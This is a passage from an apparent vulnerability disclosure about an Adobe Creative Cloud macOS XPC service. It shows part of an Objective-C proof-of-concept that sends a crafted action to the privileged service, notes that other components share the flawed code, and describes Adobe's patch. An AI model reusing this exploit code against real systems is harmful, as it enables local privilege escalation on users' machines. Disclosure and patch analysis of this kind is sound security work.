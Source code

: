 ```objectivec
      "<processPath>/Applications/Utilities/Adobe Creative Cloud/CCLibrary/CCLibrary.app/Contents/libs/node</processPath>"
      "</actionArgs>"
    "</action>";
    id remote = [conn remoteObjectProxyWithErrorHandler:^(NSError *proxyError) {
      NSLog(@"error: %@", proxyError);
    }];
    [remote handleAction:xml withReply:^(NSString *reply) {
      NSLog(@"reply: %@", reply);
      dispatch_semaphore_signal(wait_for);
    }];
    dispatch_semaphore_wait(wait_for, dispatch_time(DISPATCH_TIME_NOW, 2ull * NSEC_PER_SEC));
    [mgr removeItemAtPath:executable error:&err];
  }
  return 0;
}
```

Note that not only this XPC service is vulnerable. There are other libraries, like *ElevationManager*, share the same (vulnerable) code base, and can be trigger through other IPC mechanisms like FIFO files.

#### The Patch

Adobe removed the buggy codesign checker and made codesign requirement string more restrictive.
